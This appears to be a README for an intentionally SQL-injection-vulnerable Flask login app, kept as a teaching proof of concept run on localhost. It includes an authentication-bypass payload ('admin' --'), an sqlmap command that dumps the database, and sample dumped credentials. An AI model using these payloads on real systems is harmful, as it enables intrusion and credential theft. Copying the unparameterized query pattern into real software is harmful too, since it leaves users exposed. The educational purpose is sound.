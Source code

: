 # SQL Injection Vulnerable Web Application 

This project demonstrates a simple Python web application using Flask that is vulnerable to SQL Injection (SQLi).  
The application accepts user input via a login form and directly uses it in SQL queries without proper sanitization, making it vulnerable to SQLi attacks.  

## Why It Is Vulnerable  
The vulnerability exists because the application directly inserts user input into SQL queries without using parameterized queries or proper input validation.  
This allows an attacker to manipulate the SQL query and access or modify the database.  

## Steps to Launch the App and Test the Vulnerability  

1. **Create the SQLite Database**    

Create a SQLite database and populate it with some sample user data:  


```sh
python3 init_db.py
```  

Run this script to initialize the database.  


2. **Launch Web App**   

```sh
python3 app.py
```  

3. **Access the Application**  
Open your web browser and navigate to `http://127.0.0.1:5000`.  

4. **Test the Vulnerability**  

  - Username: `admin`
 
  - Password: `test`

  - Login failed.  
 
<br/>

  - Username: `admin' --`

  - Password: (anything)
 
  - This comment (`--`) makes the rest of the SQL query a comment, bypassing the password check.  
 
5. **Launch SQLmap to Automate Exploitation**

Install [*SQLmap*](https://github.com/sqlmapproject/sqlmap) and launch it:  


```sh
sqlmap -u "http://127.0.0.1:5000/login" --data="username=admin&password=admin123" --dump
```

SQLmap will exploit the SQL injection vulnerability and dump the database contents, here is the output:  
```sh
Database: <current>
Table: users
[2 entries]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | admin123 | admin    |
| 2  | user123  | user     |
+----+----------+----------+
```

### Explanation 
In `app.py`, the user input from the login form is directly inserted into the SQL query without sanitization.  
This makes the application vulnerable to SQL injection, allowing attackers to manipulate the query and access or modify the database.  
This PoC illustrates the dangers of SQL Injection and underscores the importance of using parameterized queries and proper input validation in web applications.  